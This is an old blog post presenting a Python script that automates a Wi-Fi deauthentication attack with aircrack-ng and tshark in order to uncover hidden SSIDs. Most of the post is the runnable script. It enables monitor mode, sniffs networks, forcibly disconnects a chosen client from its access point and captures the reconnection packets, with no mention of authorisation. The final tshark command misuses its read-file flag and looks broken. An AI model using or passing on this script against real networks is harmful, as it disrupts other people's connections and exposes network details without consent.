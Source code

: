 ```yaml
---           
layout: post
title: Python script : SSID sniffer, De-auth attack and Packets capturing using Aircrack-ng and tshark 
date: 2014-09-10 19:46:43 UTC
updated: 2014-09-10 19:46:43 UTC
comments: false
categories: 
---
```


I was asked by my friend, Atikah to write some Python scripts for her final year project. The project involves discovering the hidden SSID of surrounding Wifi networks. Getting the non-hidden SSID is a matter of turning on the wireless card. For hidden SSID, the trick is to capture the authorization packets sent by the connected client to that Wifi network and get the SSID from the packet. <br /><br />To do, we do "De-Auth attack" on that specific client. As a result, we disconnect it from the Wifi network. Once it's disconnected, it will try to reconnect to the Wifi network automatically by sending the "authorization" packets to that Wifi's Access Point.<br /><br />We then capture these packets and analyse it for information.<br /><br /><span style="font-family: Courier New, Courier, monospace;"><b>#!/usr/bin/env python</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">import os</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>from time import sleep</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "1 - Put the wireless card to monitor mode."</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "2 - Sniff for surrounding wireless network and list all BSSIDs"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "3 - Perform deAuth attack to a client from an AP"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "4 - Capture packets into a file and examine it (if "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print " "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "IMPORTANT NOTE: Press CNTRL+C to stop both the sniffing process and packets capture process"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>sleep(5) #pause for 3 seconds so user can read the info</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airmon-ng start wlan0") #set wireless card to monitor mode</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; sleep(5) #pause for 5 seconds so user can read the info</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "wireless card is set to monitor mode. Start sniffing..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airodump-ng mon0") #start probing local wireless network</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing";</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "Sniffing process stopped."</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Lets start deAuth attack. Pick an AP and a connected client"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>bssid = raw_input("Enter the MAC address of the hidden SSID of an AP (BSSID) : ")</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>station = raw_input("Enter the MAC address of connected client (STATION) : ")</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "Start deAuth attack..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("aireplay-ng --deauth 10 -a %s -c %s mon0 --ignore-negative-one" % (bssid, station)) #send deAuth packets to the AP</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing";</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print " "</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "deAuth attack is stopped. At this point, the client is trying to re-authenticate with the AP"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Lets capture the packets"</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>sleep(5) #pause for 3 seconds so user can read the info</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">try:</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; os.system("airodump-ng --bssid %s -w captured_packet mon0" %(bssid))</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>except KeyboardInterrupt:</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>&nbsp; &nbsp; print "nothing"</b></span><br /><b><span style="font-family: Courier New, Courier, monospace;"><br /></span><span style="font-family: Courier New, Courier, monospace;">print "The captured packets are saved to a file in the same directory - captured_packet.cap"</span></b><br /><span style="font-family: Courier New, Courier, monospace;"><b>print " "</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "Displaying the first 20 captured packets..."</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>os.system("tshark -r 'wlan.bssid == %s' -r captured_packet-01.cap | grep SSID | sed 's/^.*SSID=//' | sort | uniq" % bssid)</b></span><br /><span style="font-family: Courier New, Courier, monospace;"><b>print "end"</b></span>